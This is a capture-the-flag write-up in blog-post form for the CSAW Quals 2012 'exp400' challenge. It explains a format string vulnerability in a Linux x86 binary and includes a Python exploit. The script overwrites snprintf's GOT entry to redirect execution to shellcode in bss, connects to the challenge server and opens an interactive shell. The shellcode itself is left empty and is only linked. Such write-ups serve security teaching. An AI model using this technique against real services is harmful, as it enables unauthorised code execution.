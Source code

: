 ```yaml
---
title: 'CSAW Quals 2012 &mdash; exp400'
layout: post
authors:
  - Alex Reece <awreece>
categories:
  - Pwn
ctf: CSAW Quals
year: 2012
---
```

## Overview

[challenge2][1] is an Linux x86 binary with a format string vulnerability. If our format string contains no common shells, it gets placed in bss so we can just jump directly to it.

<!--more-->

## Writeup

We quickly find the interesting function and notice the obvious format string vulnerability.  There are a couple of things we need to observe for this exploit:

  * The `snprintf` fills a buffer on the stack (there is actually a buffer overflow here we didn't use but could have), so we can use it to get arguments we want on the stack.
  * The program will exit if it detects `/bin/sh`, `/bin/bash`, etc. in our string, so we cannot use shellcode with those as constants. Luckily, [my favorite shellcode][3] doesn't have this problem.
  * Immediately after the `snprintf`, the function `countdown` makes another call to `snprintf`.
  * Our format string is initially placed in bss, which is at a known location and is executable.

But now we have everything we need for our exploit: we make a format string that overwrites the GOT address of `snprintf` to point to the area in bss with payload. The format string will have the form: `shellcode + padding + addr_of_snprintf_got_hi + addr_of_snprintf_got_lo + format_string`. Here is an exploit.

```
#!/usr/bin/python
import struct
import socket
import telnetlib
import sys
import string

shellcode = ""

got_addr = 0x804b044  # snprintf got.
target_val = 0x804b120  # Location of our payload in bss.
padding = "A"*(4 - (len(shellcode) % 4))
first_part =  shellcode + padding + struct.pack('I', got_addr) + struct.pack('I', got_addr + 2)

first_size = (target_val >> 16) - len(first_part)
second_size = (target_val &#038; 0xFFFF) - first_size - len(first_part)

first_addr = (len(first_part) / 4) + 3
second_addr = first_addr + 1

last_part = "%" + str(first_size) + "x%" + str(second_addr) + "$hn"
last_part += "%" + str(second_size) + "x%" + str(first_addr) + "$hn"

payload = first_part + last_part + "\n"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('128.238.66.213', 23456))
# s.connect(('127.0.0.1', 23456))
f = s.makefile('rw', bufsize=0)

f.write(payload)

t = telnetlib.Telnet()
t.sock = s
t.interact()
```

 [1]: http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/10/exp400.tar.gz
 [2]: http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/10/Screen-Shot-2012-10-01-at-3.14.07-PM.png
 [3]: http://www.shell-storm.org/shellcode/files/shellcode-606.php